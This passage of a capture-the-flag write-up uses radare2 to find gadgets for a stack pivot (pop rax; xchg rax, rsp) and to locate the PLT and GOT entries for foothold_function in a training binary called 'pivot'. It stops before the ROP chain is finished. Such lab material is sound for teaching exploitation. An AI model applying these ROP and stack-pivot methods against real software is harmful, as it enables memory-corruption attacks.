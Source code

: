 - So as hinted at every point in the challenge, we should perform a stack pivot to give extra room for more gadgets
- In the next section we will search for ROP gadgets that we can use and build the ROP chain

## Building ROP Chain
- Open the ELF binary in radare2:
> $ `r2 -A ./pivot`  
- We want to control the stack pointer, so let's search for gadgets that include `rsp`:
> [0x00400760]> `/R rsp`  
```
[...]
  0x004009bb                 58  pop rax
  0x004009bc                 c3  ret
  0x004009bd               4894  xchg rax, rsp
  0x004009bf                 c3  ret
[...]
```
- The above gadgets are suitable for our 2nd input as we can use `pop rax` followed by the address to pivot to, then lastly `xchg rax, rsp` to get our desired pivot location into rsp (this is a total of 24 bytes, it's as if the maker of this challenge had planned it this way...)
- With the above ROP chain used as our 2nd input, the stack will have pivoted to where our 1st input was placed, so what ROP chain should we place there?
- Let's perform some further analysis on the binary using radare2, first by searching for functions:
> [0x00400760]> `afl`  
```
[...]
0x004009a8    1 19           sym.uselessFunction
0x00400720    1 6            sym.imp.foothold_function
[...]
```
- Disassemble `uselessFunction` to see what it does:
> [0x00400760]> `pdf @ sym.uselessFunction`  
```
╭ 19: sym.uselessFunction ();
│           0x004009a8      55             push rbp
│           0x004009a9      4889e5         mov rbp, rsp
│           0x004009ac      e86ffdffff     call sym.imp.foothold_function
│           0x004009b1      bf01000000     mov edi, 1                  ; int status
╰           0x004009b6      e895fdffff     call sym.imp.exit           ; void exit(int status)
```
- `uselessFunction` calls `foothold_function` then just exits
- `foothold_function` is an imported function, as it is prefixed by `sym.imp.` so lookup the address in PLT by printing info on imports and performing an internal grep:
> [0x00400760]> `ii ~ foothold_function`  
```
8   0x00400720 GLOBAL FUNC       foothold_function
```
- Therefore `foothold_function`'s PLT location is `0x400720`
- Disassemble 3 lines at `sym.imp.foothold_function`:
> [0x00400760]> `pd3 @ sym.imp.foothold_function`  
```
        ╎   ; CALL XREF from sym.uselessFunction @ 0x4009ac
╭ 6: sym.imp.foothold_function ();
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
╰       ╎   0x00400720      ff251a092000   jmp qword [reloc.foothold_function] ; [0x601040:8]=0x400726 ; "&\a@"
        ╎   0x00400726      6805000000     push 5                      ; 5
        ╰─< 0x0040072b      e990ffffff     jmp sym..plt
```
- Here we can see `foothold_function`'s GOT location is `0x601040`
- But what does `foothold_function` even do? Quit radare2 using `q` key as many times as necessary then open the libpivot shared object file in radare2: